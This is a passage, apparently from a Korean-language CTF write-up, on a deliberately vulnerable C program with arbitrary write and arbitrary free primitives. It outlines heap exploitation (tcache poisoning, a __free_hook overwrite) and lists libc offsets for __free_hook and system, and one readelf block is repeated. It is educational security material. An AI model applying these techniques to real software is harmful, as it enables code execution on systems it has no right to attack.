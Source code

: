 ``` c
  scanf("%llu", &addr);
  printf("With: ");
  scanf("%llu", &value);
  printf("[%p] = %llu\n", addr, value);
  *addr = value;

  /*
  사용자 입력으로 받은 주소를 그대로 free
  즉, 임의 주소 free(Arbitrary Free) 취약점
  활용:
    더블 프리(Double Free) 상황 조작
    임의 주소를 free -> glibc heap 내부 구조 변조
    tcache poisoning, unsorted bin attack 같은 heap exploitaiton 가능
  */
  puts("[3] Arbitrary-Address-Free");
  printf("To free: ");
  scanf("%llu", &addr);
  free(addr);

  return 0;
}
```

#### 공격 수단
1. 스택의 어떤 값을 읽을 수 있다.
2. 임의 주소에 임의 값을 쓸 수 있다.
3. 임의 주소를 해제할 수 있다.

### 3. 설계

#### 1) 라이브러리의 변수 및 함수들의 주소 구하기
\_\_free_hook, system 함수, "/bin/sh" 문자열은 libc 파일에 정의되어 있으므로, 
주어진 libc 파일로부터 이들의 오프셋을 얻을 수 있다.
```
$ readelf -sr libc-2.27.so | grep " __free_hook@"
0000003eaef0  00dd00000006 R_X86_64_GLOB_DAT 00000000003ed8e8 __free_hook@@GLIBC_2.2.5 + 0
   221: 00000000003ed8e8     8 OBJECT  WEAK   DEFAULT   35 __free_hook@@GLIBC_2.2.5

__free_hook 오프셋 = 0x3ed8e8
```
0000003eaef0 : 재배치 엔트리 위치(오프셋). 실행할 때 링커/로더가 이 위치를 고쳐 쓴다.
R_X86_64_GLOB_DAT : 이 심볼의 실제 주소를 넣어라 라는 의미. 즉, 실행 시 \_\_free_hook 의 실제 주소(0x3ed8e8)를 이 위치에 기록함.

```
$ readelf -s libc-2.27.so | grep " system@"
  1403: 000000000004f550    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5

system 함수 오프셋 = 0x4f550
```

```
$ readelf -s libc-2.27.so | grep " system@"
  1403: 000000000004f550    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5

system 함수 오프셋 = 0x4f550
```
